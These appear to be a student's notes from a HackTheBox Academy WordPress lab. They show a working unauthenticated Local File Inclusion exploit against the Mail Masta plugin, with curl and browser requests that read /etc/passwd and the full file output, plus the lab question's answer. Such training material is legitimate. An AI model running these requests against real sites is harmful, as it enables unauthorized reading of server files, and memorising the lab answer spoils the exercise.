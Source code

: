 ```yaml
---
sticker: emoji//1f43c
---
```

## Leveraging WPScan Results

The report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. This version of the `Mail Masta` plugin is known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.

Let's verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

#### LFI using Browser

```
view-source:http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![](https://academy.hackthebox.com/storage/modules/17/WP_lfi.png)

---

We can also validate this vulnerability using cURL on the command line.

#### LFI using cURL

```shell-session
smoothment@htb[/htb]$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

We have successfully validated the vulnerability using the data generated in the `WPScan` report. Now let's try it out ourselves!

# Question
---
![](../images/Pasted%20image%2020250220134032.png)

Let's use this curl command:

```
curl http://IP:PORT/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

We get this:

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
mysql:x:100:101:mysql:/var/lib/mysql:/sbin/nologin
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin
wp-user:x:1000:1000:Linux User,,,:/home/wp-user:/sbin/nologin
sally.jones:x:1001:1001:Linux User,,,:/home/sally.jones:/bin/bash
```

Answer is:

```
sally.jones
```

